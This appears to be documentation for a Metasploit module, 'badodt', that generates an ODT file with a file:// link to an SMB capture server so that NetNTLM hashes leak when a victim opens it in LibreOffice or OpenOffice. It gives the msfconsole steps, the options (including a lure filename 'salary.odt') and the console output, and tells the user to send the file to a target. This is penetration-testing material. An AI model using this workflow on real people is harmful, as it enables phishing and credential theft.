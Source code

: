 BADODT Module creates an ODT file which includes a file:// link which points back to a listening SMB capture server.
This module has been tested on both LibreOffice 6.03 /Apache OpenOffice 4.1.5 and upon opening connects to the server
without providing any warning to the user. This allows an attacker the opportunity to potentially steal NetNTLM hashes.

## Vulnerable Application

LibreOffice 6.03 /Apache OpenOffice 4.1.5
https://www.libreoffice.org/download/download/
https://www.openoffice.org/download/

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/odt/badodt```
  4. Customise Options as required
  5. Do: ```run```
  6. A malicious document will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Send document to target and wait for them to open.

## Options

CREATOR - This option allows you to customise the document author for the new document.
This can be changed using set CREATOR New_User

FILENAME - This option allows you to customise the generated filename.
This can be changed using set FILENAME salary.odt

LISTENER - This option allows you to set the IP address of the SMB Listener that the .odt document points to
This can be changed using set LISTENER 192.168.1.25

## Scenarios

### Version of software and OS as applicable

  LibreOffice 6.03 /Apache OpenOffice 4.1.5 and any version of Microsoft Windows.

  ```
  Console output
  ```

  ```
  msf > use auxiliary/odt/badodt
  msf auxiliary(odt/badodt) > set FILENAME salary.odt
  FILENAME => salary.odt
  msf auxiliary(odt/badodt) > set LISTENER 192.168.1.25
  LISTENER => 192.168.1.25
  msf auxiliary(odt/badodt) > set CREATOR A_USER
  CREATOR => A_USER
  msf auxiliary(odt/badodt) > exploit

  [*] Generating Malicious ODT File 
  [*] SMB Listener Address will be set to 192.168.1.25
  [+] salary.odt stored at /root/.msf4/local/salary.odt
  [*] Auxiliary module execution completed
  msf auxiliary(odt/badodt) > 
  ```